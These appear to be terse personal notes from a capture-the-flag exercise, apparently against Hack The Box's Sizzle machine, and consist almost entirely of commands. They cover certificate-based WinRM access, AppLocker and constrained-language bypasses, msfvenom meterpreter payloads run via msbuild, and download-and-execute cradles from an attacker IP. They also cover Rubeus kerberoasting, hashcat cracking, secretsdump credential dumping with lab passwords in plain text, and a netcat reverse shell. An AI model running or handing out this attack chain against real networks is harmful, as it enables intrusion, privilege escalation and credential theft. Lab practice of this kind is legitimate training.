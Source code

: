 ```bash
-- shell as amanda
# generate key
openssl req -newkey rsa:2048 -nodes -keyout request.key -out request.csr

# evil-winrm with cert
## https://nozerobit.gitbook.io/hacknotes/services/winrm-5985-5986
evil-winrm -S -P 5986 -c certnew.cer -k request.key -i $tip

# Applocker break out
$executioncontext.sessionstate.languagemode

Get-AppLockerPolicy -Effective -XML

-- Bypass CLM
# PsBypassCLM
iwr -uri http://10.10.14.90/bypassclm/PSBypassCLM.exe -outfile psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.90 /rport=443 \users\amanda\temp\psby.exe

# msbuild bypass
## https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f csharp -o meterpreter_443.cs -v shellcode 

## copy msf payload to shellcode.xml

## upload to target
iwr -uri http://10.10.14.90/shellcode.xml -outfile shell.xml
copy shell.xml  c:\windows\system32\spool\drivers\color\

c:\windows\microsoft.net\framework\v4.0.30319\msbuild.exe shell.xml


-- Kerberoast
## failed. no output
IEX(New-Object net.webclient).downloadstring('http://10.10.14.90/Invoke-Kerberoast.ps1')

## download 
iwr -uri http://10.10.14.90/rubeus.exe -outfile rb.exe

## copy to C:\Windows\System32\spool\drivers\color, bypass applocker
copy .\rb.exe C:\Windows\System32\spool\drivers\color\
cd C:\Windows\System32\spool\drivers\color
.\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap
 hashcat -m 13100 -a 0 mrlky.hash /usr/share/wordlists/rockyou.txt

 
## dump creds.
secretsdump.py htb.local/mrlky:'Football#7'@sizzle.htb.local
----System

# clean.bat
## not work, av detected and deleted the file.
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f exe -o meterpreter443.ex
iwr -uri http://10.10.14.90/meterpreter443.exe -outfile c:\windows\system32\spool\drivers\color\mps.exe

## try nc.exe
iwr -uri http://10.10.14.90/nc.exe -outfile c:\windows\system32\spool\drivers\color\n.exe
## not work, encode things. 
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' > clean.bat
```
